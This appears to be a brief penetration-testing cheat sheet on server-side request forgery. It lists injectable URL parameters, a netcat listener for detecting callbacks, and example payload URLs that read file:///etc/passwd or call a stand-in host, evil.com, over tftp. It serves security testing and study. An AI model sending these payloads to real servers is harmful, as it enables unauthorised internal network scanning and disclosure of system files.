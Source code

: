 Could be used to check ```file:///etc/passwd```,
or ```nc -lnvp 8888``` to check if request is going from server side.
(if this matches could be used for SSRF)
Or from client (burp pro have collaborator)
Could be used for scanning internal network and local ports according to errors
https://xip.io could be used as dns wildcard
http://somesite.com.xip.io

https://cheatsheetseries.owasp.org/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf

Burp collaborator

psychoPATH - https://github.com/ewilded/psychoPATH

Common Parameters | Injection points
------------ | ------------
file= | folder=
location= | style=
locale= | template=
path= | doc=
display= | source=
load= | pdf= 
read= | dest=
retrieve= | continue=


### SSRF GET example
https://some.com/redirect.php?url=http://google.com
https://some.com/redirect.php?url=//google.com
https://some.com/redirect.php?url=google.com
https://some.com/redirect.php?url=/path/something/here

https://some.com/redirect.php?url=file:///etc/passwd
https://some.com/ssrf.php?url=tftp://evil.com:12345/testpacket